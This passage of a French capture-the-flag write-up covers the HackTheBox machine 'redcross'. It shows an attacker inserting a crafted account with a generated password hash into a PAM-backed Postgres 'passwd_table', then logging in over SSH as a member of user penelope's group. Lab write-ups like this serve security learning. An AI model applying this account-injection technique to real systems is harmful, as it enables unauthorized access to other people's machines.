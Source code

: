 La base *redcross* liée à l'utilisateur *www* contient juste une table *ipgrants* correspondant aux enregistrements pour le whitelist d'adresses IP.  

L'autre base nommée *unix* et bien plus intéressante. En particulier elle contient une table *passwd\_table* qui contient les identifiants soumis via l'interface web or on a vu que ceux-ci permettent alors de se connecter via FTP ou SSH.  

Si on regarde les logs du système on voit clairement que le PAM est configuré pour utiliser la table Postgres en question (NB: pas vu de mots de passe stockés dans les logs).  

On dispose de suffisamment de droits pour lister le dossier personnel de l'utilisatrice *penelope* :  

```plain
total 36
drwxr-xr-x 4 penelope penelope 4096 Jun 10  2018 .
drwxr-xr-x 3 root     root     4096 Jun  8  2018 ..
-rw------- 1 root     root        0 Jun  8  2018 .bash_history
-rw-r--r-- 1 penelope penelope    0 Jun  8  2018 .bash_logout
-rw-r--r-- 1 penelope penelope 3380 Jun 10  2018 .bashrc
drwxrwx--- 6 penelope mailadm  4096 Jun  7  2018 haraka
-rw-r--r-- 1 penelope penelope  675 Jun  3  2018 .profile
-rw-r--r-- 1 penelope penelope   24 Jun 10  2018 .psqlrc
drwx------ 2 penelope penelope 4096 Jun  9  2018 .ssh
-rw-r----- 1 root     penelope   33 Jun  7  2018 user.txt
-rw------- 1 penelope penelope  791 Jun 10  2018 .viminfo
```

On est bien sûr tenté de nous ajouter un compte UNIX avec les droits de l'utilisatrice. Pour cela on se connecte à la base de données avec *psql -h 127.0.0.1 -d unix -U unixusrmgr*, on rentre le mot de passe puis on passe la requête suivante :  

```plain
insert into passwd_table (username, passwd, uid, gid, homedir) values ('devloop', '$1$xyz$b0R51BwJVtqELmbicAObd.', 1000, 1000, '/home/penelope');
```

Ici le mot de passe chiffré a été obtenu avec la commande *openssl passwd -1 -salt xyz hell0there*.  

NB: J'ai vu au préalable dans *action.php* que les mot de passe sont chiffrés simplement avec *crypt()*.  

L'opération échoue avec le message  

> ERROR: permission denied for relation passwd\_table

On ne peut pas *emprunter* l'UID de l'utilisatrice. On va donc s'en tenir à son groupe. Les UIDs sont rattachés à une séquence (auto-increment) :  

```plain
insert into passwd_table (username, passwd, gid, homedir) values ('devloop', '$1$xyz$b0R51BwJVtqELmbicAObd.', 1000, '/home/penelope');
```

Cette fois on peut se connecter :  

```plain
devloop@kali:~/Documents/redcross$ ssh devloop@intra.redcross.htb 
devloop@intra.redcross.htb's password: 
Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
devloop@redcross:~$ pwd
/home/penelope
devloop@redcross:~$ ls
haraka  user.txt
```